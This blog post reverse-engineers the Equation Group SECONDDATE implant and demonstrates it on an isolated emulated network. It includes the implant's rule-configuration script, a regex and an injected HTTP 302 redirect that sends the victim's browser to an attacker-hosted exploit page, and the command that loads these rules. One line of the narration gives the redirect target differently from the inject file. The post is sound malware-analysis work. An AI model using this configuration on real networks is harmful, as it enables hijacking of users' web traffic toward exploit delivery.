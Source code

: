 ```yaml
---
layout: post
title: SECONDDATE in action
author: Wladimir J. van der Laan
tags: [eqgrp, malware]
categories: [Reverse-engineering]
---
```


Here I've taken the environment from the [BLATSTING Command-and-Control protocol]({{ site.baseurl
}}/2016/09/04/blatsting-command-and-control.html) article and extended it, so that the emulator works as a router
between an internal network with our victim and an external network, a mock version of the internet with just our
attacker and one web server:

<pre>
SimInternet, level 2

                      ╔════════════════════════════╗
                      ║ BLATSTING emulator         ║
╔════════════════╗    ║ ╔════════════════════════╗ ║    ╔════════════════╗  emulated
║ Victim host    ║    ║ ║  Emulated modules      ║ ║    ║ Attacker host  ║  serial
║                ║    ║ ║ ┌─────────┐ ┌────────┐ ║ ║    ║ ┌─────┐┌─────┐ ║  (control)
║ ┌─────────┐    ║    ║ ║ │ second  ◀┄▶ hash   │ ║ ║    ║ │httpd││SD LP│◀━━━━━━━━  
║ │ Browser │    ║    ║ ║ │ date    │ └────────┘ ║ ║    ║ └─────┘└─────┘ ║
║ └─────────┘    ║    ║ ║ │         │ ┌────────┐ ║ ║    ║      ↕         ║
║      ↕         ║    ║ ║ │         ◀┄▶ crypto │ ║ ║    ║ Linux nw. stck ║
║ Linux nw. stck ║    ║ ║ └─────────┘ └────────┘ ║ ║    ╚══════▲═════════╝
╚══════▲═════════╝    ║ ╚════▲════▲══════════════╝ ║           ┃   ╔══════════════════╗
       ┃              ║ ┌────▼──┐ ┆                ║           ┣━━━▶ Web server ACME  ║
       ┃              ║ │ [stub]│ ┆                ║ "outside" ┃   ║ Int. Widgits Ltd ║
       ┃     "inside" ║ │ core  │┌▼───────┐ Emu.nw.║ eth1      ┃   ╚══════════════════╝
       ┃         eth2 ║ └───────┘│ [stub] ◀┄┄┄┄┄┄┄┄▶◀━━━━━━━━━━┛
       ┗━━━━━━━━━━━━━▶◀┄┄┄┄┄┄┄┄┄┄▶ network│ Stack  ║  Eth-over-UDP 
                      ║          └────────┘        ║               
                      ╚════════════════════════════╝
</pre>

This will allow using SECONDDATE as it was intended to be used, to redirect website visitors (but only on the isolated
virtual network). The attacker runs a web server to redirect the victim to, which serves exploit payloads (a FOXACID
server, in Equation Group jargon).

<iframe src="https://showterm.io/252abdc707d56d893210a" width="640" height="420"></iframe>

[Showterm session](https://showterm.io/252abdc707d56d893210a) of the experiment described here.

### Setup: Attacker

We'll (as the attacker) set up the implant with this LP script:

```bash
disable 1
rule 1 --protocol 6 --dstport 80 --nocheckhttp --checkregex --inject --injectfile injectfile_tcp --regexfile regex_tcp
enable 1
```

{: .center}
*tcptest.seconddate: configuration script for setting up SECONDDATE.*

```bash
rule [rulenum] [opts ...]           Sets options for a rule.
                                      where opts is one or more of the following options
                                     (defaults are shown in parentheses):
                                     [--srcaddr addr(0)] [--srcmask mask(0)]
                                     [--dstaddr addr(0)] [--dstmask mask(0)]
                                     [--protocol port(6/TCP)] [--srcport port(0)] [--dstport port(0)]
                                     [--mininterval(60)] [--maxinjections(5)] [--injectwindow(0)]
                                     [--checkhttp (default) | --nocheckhttp]
                                     [--checkregex (default) | --nocheckregex]
                                         [--inject (default) | --noinject
                                     [--tcpflag (FIN ACK PSH) URG | ACK | PSH | RST | SYN | FIN ]
                                     [--regexfile <filename>] [--injectfile <filename>
```

{: .center}
*SD rule definitions, from SecondDateLp `help`.*

The script does the following:

- `disable 1`: Disable any previous rule 1 (this allows for quick reloading, as live rules cannot be re-configured).
- `rule 1 ...`: Set up rule 1.
  - `--protocol 6`: Match IP protocol 6, [which happens to be
    TCP](https://en.wikipedia.org/wiki/List_of_IP_protocol_numbers). Only TCP or UDP allowed here.
  - `--dstport 80`: Destination port 80, HTTP.
  - `--nocheckhttp`: Don't use the built-in regexp for HTTP, that's no fun. Define our own.
  - `--checkregex`: Check for regex defined in `--regexfile` below.
  - `--inject`: Do packet injections.
  - `--injectfile injectfile_tcp`: Set data to inject on injection.
  - `--regexfile regex_tcp`: Set regexp to match.
- `enable 1`: Make rule 1 live.

It is possible to fine-tune various parameters such as the maximum number of injections, the time within which this has
to happen, the time between injections and so on and so on, but the defaults work fine for sake of this demo.

```bash
^GET / .*
```

{: .center}
*`regex_tcp`: The regular expression to match on TCP packets. This looks for HTTP GET requests to the root, any version.
This can be any valid [PCRE](https://www.debuggex.com/cheatsheet/regex/pcre) regular expression.*

```bash
HTTP/1.1 302 Found
Location: http://192.168.1.1/exploit.html

grazing buzzards
```

{: .center}
*`injectfile_tcp`: This will be injected into the TCP session. A basic HTTP temporary redirect to the evil web server.
`grazing buzzards` is just a 16-byte string that I use for finding the packet in captures.*

Then subsequently load it into the implant by invoking the LP command from the shell and piping in the script:

```bash
$ ./SecondDate-3.1.1.0.SecondDateLp 192.168.1.2 < tcptest.seconddate
```

{: .center}
*Loading the rules, from LP-side serial console.*

### Setup: Victim

The victim is simply using a PC running a browser and is trying to visit a website over HTTP. Luckily with [HSTS
preloading](https://en.wikipedia.org/wiki/HTTP_Strict_Transport_Security) the latter is happening less and less in
practice. For the sake of being able to record the terminal session they are using the venerable browser `lynx`,
but this will work with any browser.

### The attack

The victim, from IPv4 address `192.168.2.1`, is trying to visit the legitimate web server of ACME Internet Widgits Ltd.
at `192.168.1.100`, through their router (Internet IP `192.168.1.2`). They will be redirected to the attacker's host,
`192.168.1.1`, which hosts an exploit page. To recap:

<pre>
                                                           ╔══════════╗
╔════════════════╗                                         ║ Attacker ║
║ Victim host    ║                                         ╚════▲═════╝
║                ║                  ╔═════════════╗             ┃ 192.168.1.1
║ ┌─────────┐    ║ 192.168.2.1      ║ Compromised ║             ┃  
║ │ Browser │    ◀━━━━━━━━━━━━━━━━━━▶ Router      ◀━━━━━━━━━━━━━┫
║ └─────────┘    ║      192.168.2.2 ╚═════════════╝ 192.168.1.2 ┃
║                ║                                              ┃ 192.168.1.100
║                ║                                 ╔════════════▼═════╗
╚════════════════╝                                 ║ Web server ACME  ║
                                                   ║ Int. Widgits Ltd ║
                                                   ╚══════════════════╝
</pre>

What happens:

- Victim opens `http://192.168.1.100/` in their browser, which opens a connection to the web server of
  ACME Int. Widgits Ltd.

{: .center}
![ACME Internet Widgits Ltd]({{ site.baseurl }}/assets{{ page.id }}/acme.png "ACME Internet Widgits Ltd")

*The website of ACME Internet Widgits Ltd., which has a world-wide monopoly on delivering Schrödinger's boxes by drone. Cat not included.*

- SD, running on the compromised router, triggers on the first content packet of this connection, eats it, and instead injects a packet to redirect
  to the attacker's server, then immediately closes the connection. It resets the connection to the original web server with a TCP RST packet.

{: .center}
[![Injected packet in wireshark]({{ site.baseurl }}/assets{{ page.id }}/injection.png "Injected packet in wireshark")]({{ site.baseurl }}/assets{{ page.id }}/injection.png)

*Injected packet as seen from the inside network. The RSTs going to both the webserver and client to immediately
end the connection afterward are also visible. The full captures can be downloaded below.*

- Victim is redirected to `http://192.168.1.100/exploit.html`, and will load whatever is on that page. 

{: .center}
![Lazy exploit]({{ site.baseurl }}/assets{{ page.id }}/exploit.png "Lazy exploit")

*The ultimate lazy exploit, just for illustration. Not only does the victim have to adjust their CPU's
instruction pointer manually, they'd have to first finish writing the shellcode. The Equation Group has better ones
available. The target link would in practice point to a browser exploit (usually aimed at a plugin such as Flash), or a
backdoored installer when intercepting a download.*

- Note that when the victim immediately loads the site again they won't get redirected again. The `mininterval` serves
  as a cool-down period.

Packet captures:

- [seconddate_int.cap]({{ site.baseurl }}/assets{{ page.id }}/seconddate_int.cap) internal network
- [seconddate_ext.cap]({{ site.baseurl }}/assets{{ page.id }}/seconddate_ext.cap) external network (includes [C&C]({{ site.baseurl }}/2016/09/17/seconddate-cnc.html)
  traffic)


